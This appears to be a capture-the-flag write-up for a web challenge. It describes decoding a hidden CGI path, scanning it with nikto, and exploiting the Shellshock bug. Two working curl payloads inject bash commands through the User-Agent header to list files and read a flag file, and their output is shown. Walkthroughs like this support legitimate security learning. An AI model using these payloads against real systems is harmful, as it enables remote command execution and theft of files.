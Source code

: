 <img src="https://i.imgur.com/m9Vwt1s.png"/>

<img src="https://imgur.com/NS6QZ4p.png"/>

Looking at the source code we find base64 encoded text

```
Like the way you think spidey Y2dpLWJpbi90ZXN0LnNo 
```

On decoding

<img src="https://imgur.com/XVHZYRf.png"/>

I did a `nikto` scan and found that this is vulnerable to `shellshock`


I search on google about `cgi-bin` and found that they are mostly vulnerable to `shellshock` that allows execution of bash commands
On refering to this blog post


`https://wywyit.medium.com/ritsec-fall-2018-ctf-week-6-45d414035c76`


I used

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -type "*.txt"'" http://challenges.ctfd.io:30328/cgi-bin/test.sh
```

And it gave me a bunch of files

<img src="https://imgur.com/VxDcMQi.png"/>

At the bottom I found

```
/usr/lib/python3.8/LICENSE.txt                                            
/tmp/bash-4.3/doc/article.txt                                             
/tmp/bash-4.3/doc/fdl.txt                                                 
/tmp/bash-4.3/examples/INDEX.txt                                          
/home/admin/root.txt                                                                                                                                
/home/herman/user.txt  
```

```
Bsides Islamabad# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/herman/user.txt'" http://challenges.ctfd.io:30328/cgi-bin/test.sh

Bsides-PK-Fl4g{sinister_six}
```
And that was our flag !
